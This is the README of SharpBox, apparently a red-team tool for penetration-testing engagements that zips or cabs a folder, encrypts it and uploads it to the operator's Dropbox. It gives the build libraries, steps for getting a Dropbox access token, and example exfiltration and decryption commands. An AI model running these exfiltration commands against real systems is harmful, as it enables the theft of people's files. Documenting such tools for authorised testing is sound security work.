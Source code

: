 # SharpBox
SharpBox is a C# tool for compressing, encrypting, and exfiltrating data to DropBox using the DropBox API. 

## Compiling
Target Framework: NET3.5

The libraries added via NuGet for this project were:

**-CommandLineParser.1.9.71**

**-Costura.Fody.1.6.2**

**-DotNetZip.1.11.0**

**-Fody.2.1.2**

**-MSFTCompressionCab.1.0.0**

## Usage
Log into your DropBox account and head over to the [DropBox developer API explorer](https://dropbox.github.io/dropbox-api-v2-explorer/#auth_token/from_oauth1) page and get an oauth access token by clicking "Get Token".
These access tokens do not expire, but you can revoke them.  So I would recommend revoking tokens after being used on engagments.

Example:

```
SharpBox.exe -f "C:\Users\JasonF\Documents\management-docs" -t "DROPBOX-OATH-ACCESS-TOKEN-HERE"

SharpBox.exe -f "C:\Users\Julian\Documents\rip-docs" -t "DROPBOX-OATH-ACCESS-TOKEN-HERE" -c "Cab"
```

SharpBox can Cab or Zip a folder of items.  Zip is the default compression method.  Cabbing tends to compress into smaller files than zip, but has a maximum limit of 2GB.  The compressed file is then encrypted with a randomly generated password and uploaded to dropbox.  The password is output to the console.  Copy the password and use with the "password" argument when decrypting. 

```
SharpBox 1.0.0.0
Copyright c  2018

  -f, --path                   Required. path to the folder you wish to
                               compress the contents of

  -o, --OutFile                Name of the compressed file

  -t, --dbxToken               Dropbox Access Token

  -x, --dbxPath                (Default: /test/data) path to dbx folder

  -c, --compression            (Default: Zip) this option lets you choose to
                               zip or cab the folder

  -d, --decrypt                (Default: False) Choose this to decrypt a zip or
                               cabbed file previously encrypted by this tool.
                               Requires original password argument.

  -p, --decryption-password    Password to decrypt a zipped or cabbed file.

  --help                       Display this help screen.
  ```
  
  
  Once the compressed/encrypted file is downloaded from DropBox, you can use this tool to decrypt it as well. 
  
  Example: 
  
  ```
  SharpBox.exe -f "C:\Users\evilDude\Desktop\data" -o "decrypted-data.zip" -p "RandomlyGeneratedPassword" -d
  ```
  
  
